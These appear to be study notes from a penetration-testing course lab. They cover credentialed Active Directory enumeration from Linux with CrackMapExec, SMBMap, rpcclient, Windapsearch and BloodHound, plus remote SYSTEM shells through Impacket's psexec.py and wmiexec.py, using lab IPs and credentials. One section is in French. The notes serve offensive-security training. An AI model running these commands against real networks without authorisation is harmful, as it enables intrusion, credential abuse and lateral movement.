



# Credentialed Enumeration - from Linux

***

&#x20;We are interested in information about domain user and computer attributes, group membership, Group Policy Objects, permissions, ACLs, trusts, and more.

***

### <mark style="color:red;">CrackMapExec</mark>

<mark style="color:green;">**CME Help Menu**</mark>


```shell-session
mrroboteLiot@htb[/htb]$ crackmapexec -h
```


We can see that we can use the tool with MSSQL, SMB, SSH, and WinRM credentials. Let's look at our options for CME with the SMB protocol:

<mark style="color:green;">**CME Options (SMB)**</mark>


```shell-session
mrroboteLiot@htb[/htb]$ crackmapexec smb -h
```


* -u Username `The user whose credentials we will use to authenticate`
* -p Password `User's password`
* Target (IP or FQDN) `Target host to enumerate` (in our case, the Domain Controller)
* \--users `Specifies to enumerate Domain Users`
* \--groups `Specifies to enumerate domain groups`
* \--loggedon-users `Attempts to enumerate what users are logged on to a target, if any`

<mark style="color:green;">**CME - Domain User Enumeration**</mark>


```shell-session
mrroboteLiot@htb[/htb]$ sudo crackmapexec smb 172.16.5.5 -u forend -p Klmcargo2 --users
```


<mark style="color:green;">**CME - Domain Group Enumeration**</mark>


```shell-session
mrroboteLiot@htb[/htb]$ sudo crackmapexec smb 172.16.5.5 -u forend -p Klmcargo2 --groups
```


<mark style="color:green;">**CME - Logged On Users**</mark>


```shell-session
mrroboteLiot@htb[/htb]$ sudo crackmapexec smb 172.16.5.130 -u forend -p Klmcargo2 --loggedon-users
```


<mark style="color:green;">**CME Share Searching**</mark>

We can use the `--shares` flag to enumerate available shares on the remote host and the level of access our user account has to each share (READ or WRITE access). Let's run this against the INLANEFREIGHT.LOCAL Domain Controller.

<mark style="color:green;">**Share Enumeration - Domain Controller**</mark>


```shell-session
mrroboteLiot@htb[/htb]$ sudo crackmapexec smb 172.16.5.5 -u forend -p Klmcargo2 --shares
```


Next, we can dig into the shares and spider each directory looking for files. The module `spider_plus` will dig through each readable share on the host and list all readable files. Let's give it a try.

<mark style="color:green;">**Spider\_plus**</mark>


```shell-session
mrroboteLiot@htb[/htb]$ sudo crackmapexec smb 172.16.5.5 -u forend -p Klmcargo2 -M spider_plus --share 'Department Shares'

```


```shell-session
mrroboteLiot@htb[/htb]$ head -n 10 /tmp/cme_spider_plus/172.16.5.5.json 

{
    "Department Shares": {
        "Accounting/Private/AddSelect.bat": {
            "atime_epoch": "2022-03-31 14:44:42",
            "ctime_epoch": "2022-03-31 14:44:39",
            "mtime_epoch": "2022-03-31 15:14:46",
            "size": "278 Bytes"
        },
        "Accounting/Private/ApproveConnect.wmf": {
            "atime_epoch": "2022-03-31 14:45:14",
     
<SNIP>
```

***

### <mark style="color:red;">SMBMap</mark>

SMBMap is great for enumerating SMB shares from a Linux attack host. It can be used to gather a listing of shares, permissions, and share contents if accessible. Once access is obtained, it can be used to download and upload files and execute remote commands.

<mark style="color:green;">**SMBMap To Check Access**</mark>


```shell-session
mrroboteLiot@htb[/htb]$ smbmap -u forend -p Klmcargo2 -d INLANEFREIGHT.LOCAL -H 172.16.5.5
```


Let's do a recursive listing of the directories in the `Department Shares` share. We can see, as expected, subdirectories for each department in the company.

<mark style="color:green;">**Recursive List Of All Directories**</mark>


```shell-session
mrroboteLiot@htb[/htb]$ smbmap -u forend -p Klmcargo2 -d INLANEFREIGHT.LOCAL -H 172.16.5.5 -R 'Department Shares' --dir-only
```


***

### <mark style="color:red;">rpcclient</mark>

Due to SMB NULL sessions (covered in-depth in the password spraying sections) on some of our hosts, we can perform authenticated or unauthenticated enumeration using rpcclient in the INLANEFREIGHT.LOCAL domain. An example of using rpcclient from an unauthenticated standpoint (if this configuration exists in our target domain) would be:

```bash
rpcclient -U "" -N 172.16.5.5
```

**SMB NULL Session with rpcclient**

<figure><figcaption></figcaption></figure>

<mark style="color:green;">**rpcclient Enumeration**</mark>

While looking at users in rpcclient, you may notice a field called `rid:` beside each user. A [Relative Identifier (RID)](https://docs.microsoft.com/en-us/windows/security/identity-protection/access-control/security-identifiers) is a unique identifier (represented in hexadecimal format) utilized by Windows to track and identify objects. To explain how this fits in, let's look at the examples below:

* The [SID](https://docs.microsoft.com/en-us/windows/security/identity-protection/access-control/security-identifiers) for the INLANEFREIGHT.LOCAL domain is: `S-1-5-21-3842939050-3880317879-2865463114`.
* When an object is created within a domain, the number above (SID) will be combined with a RID to make a unique value used to represent the object.
* So the domain user `htb-student` with a RID:\[0x457] Hex 0x457 would = decimal `1111`, will have a full user SID of: `S-1-5-21-3842939050-3880317879-2865463114-1111`.
* This is unique to the `htb-student` object in the INLANEFREIGHT.LOCAL domain and you will never see this paired value tied to another object in this domain or any other.

However, there are accounts that you will notice that have the same RID regardless of what host you are on. Accounts like the built-in Administrator for a domain will have a RID \[administrator] rid:\[0x1f4], which, when converted to a decimal value, equals `500`. The built-in Administrator account will always have the RID value `Hex 0x1f4`, or 500. This will always be the case. Since this value is unique to an object, we can use it to enumerate further information about it from the domain. Let's give it a try again with rpcclient. We will dig a bit targeting the `htb-student` user.

<mark style="color:green;">**RPCClient User Enumeration By RID**</mark>

```shell-session
rpcclient $> queryuser 0x457
```

<mark style="color:green;">**Enumdomusers**</mark>

```shell-session
rpcclient $> enumdomusers
```

***

### <mark style="color:red;">Impacket Toolkit</mark>


Impacket is a versatile toolkit that provides us with many different ways to enumerate, interact, and exploit Windows protocols and find the information we need using Python. The tool is actively maintained and has many contributors, especially when new attack techniques arise. We could perform many other actions with Impacket, but we will only highlight a few in this section; [wmiexec.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/wmiexec.py) and [psexec.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/psexec.py).&#x20;


### <mark style="color:blue;">**Psexec.py**</mark>

One of the most useful tools in the Impacket suite is `psexec.py`. Psexec.py is a clone of the Sysinternals psexec executable, but works slightly differently from the original.

The tool creates a remote service by uploading a randomly-named executable to the `ADMIN$` share on the target host. It then registers the service via `RPC` and the `Windows Service Control Manager`. Once established, communication happens over a named pipe, providing an interactive remote shell as `SYSTEM` on the victim host.

<mark style="color:green;">**Using psexec.py**</mark>

```bash
psexec.py inlanefreight.local/wley:'transporter@4'@172.16.5.125  
```

<figure><figcaption></figcaption></figure>

Once we execute the psexec module, it drops us into the `system32` directory on the target host. We ran the `whoami` command to verify, and it confirmed that we landed on the host as `SYSTEM`. From here, we can perform most any task on this host; anything from further enumeration to persistence and lateral movement. Let's give another Impacket module a try: `wmiexec.py`.

### <mark style="color:blue;">**wmiexec.py**</mark>

Wmiexec.py utilizes a semi-interactive shell where commands are executed through [Windows Management Instrumentation](https://docs.microsoft.com/en-us/windows/win32/wmisdk/wmi-start-page). It does not drop any files or executables on the target host and generates fewer logs than other modules. After connecting, it runs as the local admin user we connected with (this can be less obvious to someone hunting for an intrusion than seeing SYSTEM executing many commands). This is a more stealthy approach to execution on hosts than other tools, but would still likely be caught by most modern anti-virus and EDR systems. We will use the same account as with psexec.py to access the host.

<mark style="color:green;">**Using wmiexec.py**</mark>

```bash
wmiexec.py inlanefreight.local/wley:'transporter@4'@172.16.5.5  
```

<figure><figcaption></figcaption></figure>


Cet environnement shell (fourni par `wmiexec.py`) n'est **pas totalement interactif**. Cela signifie qu'à chaque commande que vous exécutez, un **nouveau processus `cmd.exe`** est lancé par WMI pour exécuter la commande.

#### **Conséquences et risques :**

* **Création de processus visible :**
  * Un défenseur attentif peut vérifier les **journaux d'événements** de Windows et repérer un **événement ID 4688 : Un nouveau processus a été créé**.
  * Dans ce cas, il verra qu'un nouveau processus `cmd.exe` a été lancé pour exécuter la commande.
* **Pas toujours suspect :**
  * Cela n’est pas nécessairement une activité malveillante, car de nombreuses organisations utilisent **WMI** de manière légitime pour administrer leurs ordinateurs (par exemple, pour des scripts d’automatisation ou des vérifications système).
  * Cependant, dans le cadre d’une enquête sur une intrusion, cela peut servir d’indice pour détecter une activité inhabituelle.


***

### <mark style="color:red;">Windapsearch</mark>

[Windapsearch](https://github.com/ropnop/windapsearch) is another handy Python script we can use to enumerate users, groups, and computers from a Windows domain by utilizing LDAP queries. It is present in our attack host's /opt/windapsearch/ directory.

**Windapsearch Help**

```shell-session
mrroboteLiot@htb[/htb]$ windapsearch.py -h
```

We have several options with Windapsearch to perform standard enumeration (dumping users, computers, and groups) and more detailed enumeration. The `--da` (enumerate domain admins group members ) option and the `-PU` ( find privileged users) options. The `-PU` option is interesting because it will perform a recursive search for users with nested group membership.

<mark style="color:green;">**Windapsearch - Domain Admins**</mark>


```shell-session
mrroboteLiot@htb[/htb]$ python3 windapsearch.py --dc-ip 172.16.5.5 -u forend@inlanefreight.local -p Klmcargo2 --da
```


To identify more potential users, we can run the tool with the `-PU` flag and check for users with elevated privileges that may have gone unnoticed. This is a great check for reporting since it will most likely inform the customer of users with excess privileges from nested group membership.

<mark style="color:green;">**Windapsearch - Privileged Users**</mark>


```shell-session
mrroboteLiot@htb[/htb]$ python3 windapsearch.py --dc-ip 172.16.5.5 -u forend@inlanefreight.local -p Klmcargo2 -PU
```


You'll notice that it performed mutations against common elevated group names in different languages. This output gives an example of the dangers of nested group membership, and this will become more evident when we work with BloodHound graphics to visualize this.

***

### <mark style="color:red;">Bloodhound.py</mark>

<mark style="color:green;">**BloodHound.py Options**</mark>

```shell-session
mrroboteLiot@htb[/htb]$ bloodhound-python -h
```

As we can see the tool accepts various collection methods with the `-c` or `--collectionmethod` flag. We can retrieve specific data such as user sessions, users and groups, object properties, ACLS, or select `all` to gather as much data as possible. Let's run it this way.

<mark style="color:green;">**Executing BloodHound.py**</mark>


```shell-session
mrroboteLiot@htb[/htb]$ sudo bloodhound-python -u 'forend' -p 'Klmcargo2' -ns 172.16.5.5 -d inlanefreight.local -c all 
```


The command above executed Bloodhound.py with the user `forend`. We specified our nameserver as the Domain Controller with the `-ns` flag and the domain, INLANEFREIGHt.LOCAL with the `-d` flag. The `-c all` flag told the tool to run all checks. Once the script finishes, we will see the output files in the current working directory in the format of \<date\_object.json>.

<mark style="color:green;">**Viewing the Results**</mark>


```shell-session
mrroboteLiot@htb[/htb]$ ls

20220307163102_computers.json  20220307163102_domains.json  20220307163102_groups.json  20220307163102_users.json  
```


<mark style="color:green;">**Upload the Zip File into the BloodHound GUI**</mark>

We could then type `sudo neo4j start` to start the [neo4j](https://neo4j.com/) service, firing up the database we'll load the data into and also run Cypher queries against.

**Uploading the Zip File**

Now that the data is loaded, we can use the Analysis tab to run queries against the database. These queries can be custom and specific to what you decide using [custom Cypher queries](https://hausec.com/2019/09/09/bloodhound-cypher-cheatsheet/). There are many great cheat sheets to help us here. We will discuss custom Cypher queries more in a later section. As seen below, we can use the built-in `Path Finding` queries on the `Analysis tab` on the `Left` side of the window.

<mark style="color:green;">**Searching for Relationships**</mark>

The query chosen to produce the map above was `Find Shortest Paths To Domain Admins`. It will give us any logical paths it finds through users/groups/hosts/ACLs/GPOs, etc., relationships that will likely allow us to escalate to Domain Administrator privileges or equivalent.&#x20;

This will be extremely helpful when planning our next steps for lateral movement through the network.

&#x20;[Active Directory BloodHound](https://academy.hackthebox.com/course/preview/active-directory-bloodhound) module.

***
